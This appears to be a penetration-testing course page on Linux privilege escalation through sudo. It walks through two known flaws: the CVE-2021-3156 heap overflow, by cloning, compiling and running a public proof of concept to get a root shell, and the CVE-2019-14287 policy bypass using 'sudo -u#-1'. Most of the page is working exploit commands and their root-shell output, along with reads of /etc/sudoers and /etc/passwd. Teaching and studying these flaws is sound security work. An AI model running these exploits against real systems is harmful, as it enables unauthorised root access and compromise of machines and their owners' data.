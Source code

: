 # Sudo

---

The program `sudo` is used under UNIX operating systems like Linux or macOS to start processes with the rights of another user. In most cases, commands are executed that are only available to administrators. It serves as an additional layer of security or a safeguard to prevent the system and its contents from being damaged by unauthorized users. The `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.

Sudo

```shell-session
cry0l1t3@nix02:~$ sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
[sudo] password for cry0l1t3:  **********

Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
Defaults        use_pty
root            ALL=(ALL:ALL) ALL
%admin          ALL=(ALL) ALL
%sudo           ALL=(ALL:ALL) ALL
cry0l1t3        ALL=(ALL) /usr/bin/id
@includedir     /etc/sudoers.d
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

To find out the version of `sudo`, the following command is sufficient:

Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```

The interesting thing about this vulnerability was that it had been present for over ten years until it was discovered. There is also a public [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) that can be used for this. We can either download this to a copy of the target system we have created or, if we have an internet connection, to the target system itself.

Sudo

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```

When running the exploit, we can be shown a list that will list all available versions of the operating systems that may be affected by this vulnerability.

Sudo

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

We can find out which version of the operating system we are dealing with using the following command:

Sudo

```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

Next, we specify the respective ID for the version operating system and run the exploit with our payload.

Sudo

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

---

## Sudo Policy Bypass

Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

In fact, `Sudo` also allows commands with specific user IDs to be executed, which executes the command with the user's privileges carrying the specified ID. The ID of the specific user can be read from the `/etc/passwd` file.

Sudo

```shell-session
cry0l1t3@nix02:~$ cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.

Sudo

```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```